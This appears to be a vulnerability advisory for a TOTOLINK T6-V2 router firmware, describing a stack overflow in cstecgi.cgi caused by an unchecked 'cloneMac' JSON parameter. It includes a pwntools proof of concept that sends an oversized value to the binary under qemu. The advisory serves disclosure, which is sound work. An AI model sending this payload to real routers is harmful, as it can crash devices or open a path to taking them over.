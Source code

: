 ## Overview

- The device's official website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=products&id=16&ids=33
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Affected version

T6-V2 V4.1.9cu.5179_B20201015

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_0041af40` (at address 0x41af40) gets the JSON parameter `cloneMac`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow: 

<img src="img/image-20220529133718102.png" alt="image-20220529133718102" style="zoom:67%;" />

## PoC

```python
from pwn import *
import json

data = {
    "topicurl": "setting/setWanCfg",
    "proto": "0",
    "staticIp": "192.168.2.1",
    "staticMask": "255.255.255.0",
    "staticGw": "192.168.2.1",
    "staticMtu": "0",
    "cloneMac": "A"*0x400
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-g", "1234",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```

